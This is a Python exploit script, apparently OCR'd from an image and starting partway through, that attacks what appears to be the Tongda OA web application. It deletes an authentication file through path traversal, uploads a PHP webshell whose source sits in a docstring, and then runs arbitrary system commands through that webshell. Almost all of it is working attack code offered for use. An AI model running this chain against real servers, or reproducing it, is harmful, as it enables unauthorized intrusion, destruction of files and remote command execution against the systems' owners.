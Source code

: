 ```python
            print("\033[31m[x] 不存在 /module/appbuilder/assets/print.php 漏洞利用失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_2(target_url):
    unlink_url = target_url + "/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"
    try:
        unlink_response = requests.get(url = unlink_url)
        if unlink_response.status_code == 200:
            print("\033[32m[o] 成功删除校验文件 auth.inc.php \033[0m")
        else:
            print("\033[31m[x] 删除校验文件 auth.inc.php 失败 \033[0m")
            sys.exit(0)
    except Exception as e:
            print("\033[31m[x] 请求失败，{} \033[0m".format(e))
            sys.exit(0)

def POC_3(target_url, payload_php):
    """
      (绕过的webshell)
      <?php
      $command=$_GET['test'];
      $wsh = new COM('WScript.shell');
      $exec = $wsh->exec("cmd /c ".$command);
      $stdout = $exec->StdOut();
      $stroutput = $stdout->ReadAll();
      echo $stroutput;
      ?>
    """
    vuln_url = target_url + "/general/data_center/utils/upload.php?action=upload&filetype=test&repkid=/.<>./.<>./.<>./"
    files = {'FILE1': ('test.php', payload_php)}
    try:
        vuln_response = requests.post(url = vuln_url,files=files)
        if vuln_response.status_code == 200:
            print("\033[32m[o] 成功写入webshell文件: _test.php \033[0m")
            print("\033[32m[o] webshell地址为: {}/_test.php \033[0m".format(target_url))
        else:
            print("\033[31m[x] 写入webshell文件失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

def POC_4(target_url, cmd):
    cmd_url = target_url + "/_test.php?test={}".format(cmd)
    try:
        cmd_response = requests.get(url = cmd_url)
        if cmd_response.status_code == 200:
            print("\033[32m[o] 正在执行命令: {} \033[0m".format(cmd_url))
            print("\033[32m[o] 响应为: \n{} \033[0m".format(cmd_response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败，{} \033[0m".format(e))
        sys.exit(0)

if __name__ == '__main__':
    title()
```